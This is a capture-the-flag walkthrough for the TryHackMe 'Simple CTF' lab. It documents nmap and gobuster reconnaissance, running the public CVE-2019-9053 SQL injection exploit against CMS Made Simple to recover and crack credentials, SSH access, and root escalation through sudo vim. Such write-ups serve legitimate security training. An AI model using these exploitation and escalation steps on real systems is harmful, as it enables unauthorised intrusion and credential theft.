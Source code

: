 ![Screenshot 2023-08-20 224751.png](Simple_CTF%20434d9e130dc549059eec37b68aa59763/Screenshot_2023-08-20_161553.png)

# Simple_CTF

The skills to be tested and needed to solve this room are: **nmap**, **GoBuster**, **privilege escalation**, **Sudo**, **find**, and **gtfobins**.

This is a **free** room, which means anyone can deploy virtual machines in the room (without being subscribed)! Created by [MrSeth6797](https://tryhackme.com/p/MrSeth6797)

You can access the room at [https://tryhackme.com/room/rootme](https://tryhackme.com/room/easyctf)

Target Machine IP address can change during the process.

## Footprinting and Reconnaissance

## Nmap Scan

nmap -A -Pn -T4 -oN nmap_result.txt 10.10.150.91

```bash
# Nmap 7.92 scan initiated Sat Aug 19 11:52:12 2023 as: nmap -A -Pn -T4 -oN nmap_result.txt 10.10.150.91
Nmap scan report for 10.10.150.91
Host is up (0.42s latency).
Not shown: 997 filtered tcp ports (no-response)
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.17.11.201
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
| http-robots.txt: 2 disallowed entries 
|_/ /openemr-5_0_1_3 
|_http-server-header: Apache/2.4.18 (Ubuntu)
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 29:42:69:14:9e:ca:d9:17:98:8c:27:72:3a:cd:a9:23 (RSA)
|   256 9b:d1:65:07:51:08:00:61:98:de:95:ed:3a:e3:81:1c (ECDSA)
|_  256 12:65:1b:61:cf:4d:e5:75:fe:f4:e8:d4:6e:10:2a:f6 (ED25519)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.10 - 3.13 (92%), Crestron XPanel control system (90%), ASUS RT-N56U WAP (Linux 3.4) (87%), Linux 3.1 (87%), Linux 3.16 (87%), Linux 3.2 (87%), HP P2000 G3 NAS device (87%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (87%), Linux 2.6.32 (86%), Linux 2.6.32 - 3.1 (86%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 5 hops
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 21/tcp)
HOP RTT       ADDRESS
1   380.71 ms 10.17.0.1
2   ... 4
5   414.08 ms 10.10.150.91

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Aug 19 11:53:33 2023 -- 1 IP address (1 host up) scanned in 81.82 seconds
```

After analyzing the nmap scan it look like their is total three port are open . and the ssh service is running in different port number 2222. 

## Run gobuster to look for hidden directories and files on the web server.

gobuster dir -u [http://10.10.172.154/](http://10.10.172.154/) -w /home/kali/Downloads/SecLists/SecLists/Discovery/Web-Content/directory-list-2.3-small.txt -o gobuster_output.txt -t 20

![Screenshot 2023-08-20 225603.png](Simple_CTF%20434d9e130dc549059eec37b68aa59763/Screenshot_2023-08-20_225603.png)

We have found the hidden directorie called `/simple`

![Screenshot 2023-08-20 224751.png](Simple_CTF%20434d9e130dc549059eec37b68aa59763/Screenshot_2023-08-20_224751.png)

# **CMS Made Simple - CVE-2019-9053**

We find an SQL Injection vulnerability that affects this CMS, we use the exploit to obtain the username and password.

**[CMS Made Simple < 2.2.10 - SQL Injection](https://www.exploit-db.com/exploits/46635)**

To run the above exploit we have to Interpreted the exploit with python2 and install the necessary required module like termcolor 

```bash
ls /usr/bin/python*
sudo ln -sf /usr/bin/python2.7 /usr/bin/python			//to link the python version
```

```bash
Download the termcolor module source code from the PyPI website: https://pypi.org/project/termcolor/.
Unzip the file.
Change directory to the termcolor directory.
Run the following command to install the termcolor module:
python setup.py install
pip install --user termcolor==1.1.0
```

```bash
python CVE-2019-9053.py -u http://10.10.230.238/simple/ --crack -w 10k-most-common.txt
 
[+] Salt for password found: 1dac0d9***fa6bb2
[+] Username found: mitch
[+] Email found: admin@admin.com
[+] Password found: 0c01f4468b*****a84c7eb73846e8d96
[+] Password cracked: ******
```

We tried to use the credentials we found in the Made Simple panel but we failed to start session.

# **SSH - User**

We use the credentials that we find in the SSH service to obtain a shell and our flag **user.txt**.

![Screenshot 2023-08-20 230351.png](Simple_CTF%20434d9e130dc549059eec37b68aa59763/Screenshot_2023-08-20_230351.png)

# **PRIVILEGE ESCALATION**

We make a simple enumeration with `sudo -l`  to list the commands / files that we can execute without password and with root privileges, we see `/usr/bin/vim`, to get a shell we use **[GTFOBINS](https://gtfobins.github.io/gtfobins/vim/#sudo)**.

![Screenshot 2023-08-20 230921.png](Simple_CTF%20434d9e130dc549059eec37b68aa59763/Screenshot_2023-08-20_230921.png)